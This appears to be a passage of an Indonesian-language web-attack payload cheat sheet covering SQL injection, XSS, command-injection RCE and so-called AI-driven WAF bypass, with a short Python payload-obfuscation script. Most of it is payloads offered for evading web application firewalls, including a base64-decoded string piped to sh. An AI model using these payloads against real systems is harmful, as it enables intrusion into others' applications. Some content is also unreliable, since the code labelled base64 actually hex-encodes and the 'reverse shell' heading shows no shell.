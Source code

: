 **Payload dengan Comment Obfuscation:**
```sql
SELECT/**/password/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin'
```

---

## 🎭 2. Cross-Site Scripting (XSS)

**Payload Dasar:**
```html
<script>alert(1)</script>
```

**Payload Bypass WAF (SVG & Event Handlers):**
```html
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
```

**Payload XSS Polymorphic (JavaScript Encoding):**
```html
<scr<script>ipt>alert(1)</scr<script>ipt>
```

---

## 🔥 3. Remote Code Execution (RCE)

**Payload Dasar:**
```bash
; ls -la
| id
```

**Payload Bypass WAF (Base64 & Reverse Shell):**
```bash
echo 'bHMgLWxh' | base64 -d | sh
```

---

## 🤖 AI-Based WAF Bypass

**Teknik AI Bypass WAF:**  
- **Adversarial Attack:** Menggunakan model AI untuk memodifikasi payload agar tidak terdeteksi.  
- **Dynamic Payload Mutation:** Payload berubah sesuai respon dari server.  
- **ML-Driven Obfuscation:** Payload dienkripsi dan hanya dieksekusi saat diterima oleh target.  

**Contoh Implementasi Python AI Bypass WAF:**
```python
import random

payloads = ["' OR 1=1 --", "<script>alert(1)</script>", "; ls -la"]
obfuscation_methods = ["url_encode", "base64", "hex"]

def obfuscate(payload, method):
    if method == "url_encode":
        return payload.replace(" ", "%20").replace("'", "%27")
    elif method == "base64":
        return payload.encode("utf-8").hex()
    return payload

selected_payload = random.choice(payloads)
selected_method = random.choice(obfuscation_methods)

bypass_payload = obfuscate(selected_payload, selected_method)
print(f"Generated Bypass Payload: {bypass_payload}")
```